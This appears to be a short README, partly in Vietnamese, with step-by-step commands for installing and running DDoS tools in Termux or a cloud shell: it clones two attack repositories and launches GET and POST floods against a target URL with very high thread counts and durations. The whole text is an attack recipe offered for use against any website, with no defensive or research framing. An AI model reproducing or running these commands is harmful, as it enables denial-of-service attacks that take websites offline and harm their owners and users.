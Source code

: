 # Setup termux
pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web

java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập
│
├───TIME:1000
│
└───THREADS:20000
│
└───URL:link web
